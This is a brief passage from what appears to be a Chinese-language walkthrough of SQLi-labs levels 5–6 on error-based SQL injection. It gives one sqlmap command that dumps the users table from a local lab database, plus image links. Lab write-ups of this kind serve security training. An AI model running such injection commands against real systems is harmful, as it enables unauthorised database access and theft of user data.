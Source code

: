 ![2020-1-4-9-34-1-Sqlilabs通关笔记(5-6)报错注入](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-4-9-34-1-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(5-6)%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5)

### SQLMAP注入

直接上payload（第五六题均可用）
```
sqlmap -u "http://127.0.0.1/sqlilabs2/Less-5/index.php?id=1" --technique E -D security -T users --dump --batch
```

![2020-1-3-17-23-39-Sqlilabs通关笔记(1-4)](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-17-23-39-Sqlilabs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0(1-4))